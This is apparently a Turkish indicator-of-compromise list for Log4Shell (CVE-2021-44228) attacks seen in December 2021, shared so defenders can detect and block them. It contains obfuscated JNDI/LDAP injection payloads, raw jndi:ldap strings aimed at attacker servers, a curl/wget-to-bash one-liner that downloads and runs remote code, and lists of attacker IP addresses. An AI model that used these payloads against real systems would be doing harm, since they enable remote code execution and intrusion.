 ${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://45.155.205.233:12344/Basic/Command/Base64/KODLANMIS BASE64 KODU\=\=}"
(curl -s 45.155.205.233:5874/xx.xx.xx.xx:80||wget -q -O- 45.155.205.233:5874/xx.xx.xx.xx:80)|bash




<b><h1>11 ARALIK 2021</h1></b>
139.59.224.7  
188.166.225.104  
147.182.216.21  
188.166.45.93  
167.99.36.245  
139.59.96.42  
139.59.108.31  
138.197.9.239  
46.101.223.115  
217.112.83.246  
191.232.38.25  
170.210.45.163  
205.185.115.217  
170.210.45.163  
61.19.25.207  
167.71.13.196  
45.130.229.168  
221.199.187.100  
188.213.34.50  
185.220.101.39  
104.244.79.6  
89.234.182.139  
104.244.79.6  
185.220.101.39  
47.243.59.134  
13.40.42.166  
193.201.9.175  
13.40.72.149  
47.243.236.228  





<b><h1>10 Aralık 2021</h1></b>
jndi:ldap://205.185.115.217:47324/a  
jndi:ldap:/45.130.229.168:1389/Exploit  
221.199.187.100  
167.71.13.196  
jndi:ldaps://85f4b843.probe001.log4j.leakix.net:9200/b  
61.19.25.207  
jndi:ldap://45.130.229.168:1389/Exploit  
170.210.45.163  
jndi:ldap://163.172.157.143:1389/skziyb  
217.112.83.246   
46.101.223.115  
jndi:ldap://http443useragent.kryptoslogic-cve-2021-44228.com/http443useragent  
138.197.9.239  
139.59.108.31
jndi:ldap://http443useragent.kryptoslogic-cve-2021-44228.com/http443useragent   


# https://github.com/muratyokus/Turkey-discovery-and-exploitation-IOCs

